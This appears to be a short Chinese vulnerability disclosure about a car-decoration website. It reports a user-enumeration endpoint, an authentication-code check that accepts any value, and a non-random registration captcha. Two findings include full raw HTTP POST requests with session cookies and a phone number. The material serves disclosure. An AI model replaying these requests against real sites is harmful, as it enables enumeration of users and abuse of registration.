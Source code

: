 1 汽车装修网是使用java搭建的

http://www.zxsf360.com/

JSESSIONID


2 汽车装修网存在确认用户是否存在的接口

http://www.zxsf360.com/checkUserExists.c

POST /checkUserExists.c HTTP/1.1
Host: www.zxsf360.com
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip, deflate
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://www.zxsf360.com
Connection: keep-alive
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_3) AppleWebKit/600.6.3 (KHTML, like Gecko) Version/8.0.6 Safari/600.6.3
Referer: http://www.zxsf360.com/main/register.html
Cookie: CNZZDATA1253341957=1575443569-1433812675-http%253A%252F%252Fbj.zxsf360.com%252F%7C1433812675; JSESSIONID=837E48D460ECE50B5030213FE0DFEC36; city=%E5%8C%97%E4%BA%AC; Hm_lpvt_27780de35567cc1f5ee5dd1ba0809b9b=1433816380; Hm_lvt_27780de35567cc1f5ee5dd1ba0809b9b=1433815099; U_LAST_LOGIN_TIME=""; U_LOGIN_TYPE=""; U_NAME_JSESSIONID_KEEPC=""; U_PHOTO_JSESSIONID_KEEPC=""; U_PWD_JSESSIONID_KEEPC=""; U_UID_JSESSIONID_KEEPC=""; U_USER_TYPE=""
Content-Length: 29

mobile=13051117371&userType=1

可以遍历查询用户是否存在。

3 随便输入验证码也能通过

http://www.zxsf360.com/initAuthCode.act

POST /initAuthCode.act HTTP/1.1
Host: www.zxsf360.com
Accept: */*
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip, deflate
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://www.zxsf360.com
Content-Length: 13
Connection: keep-alive
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_3) AppleWebKit/600.6.3 (KHTML, like Gecko) Version/8.0.6 Safari/600.6.3
Referer: http://www.zxsf360.com/main/register.html
Cookie: CNZZDATA1253341957=1575443569-1433812675-http%253A%252F%252Fbj.zxsf360.com%252F%7C1433812675; JSESSIONID=837E48D460ECE50B5030213FE0DFEC36; city=%E5%8C%97%E4%BA%AC; Hm_lpvt_27780de35567cc1f5ee5dd1ba0809b9b=1433816380; Hm_lvt_27780de35567cc1f5ee5dd1ba0809b9b=1433815099; U_LAST_LOGIN_TIME=""; U_LOGIN_TYPE=""; U_NAME_JSESSIONID_KEEPC=""; U_PHOTO_JSESSIONID_KEEPC=""; U_PWD_JSESSIONID_KEEPC=""; U_UID_JSESSIONID_KEEPC=""; U_USER_TYPE=""

authCode=6666

4 http://www.zxsf360.com/main/reg_shifu.html  这个页面的验证码生成没有随机数意思是所有人都一样


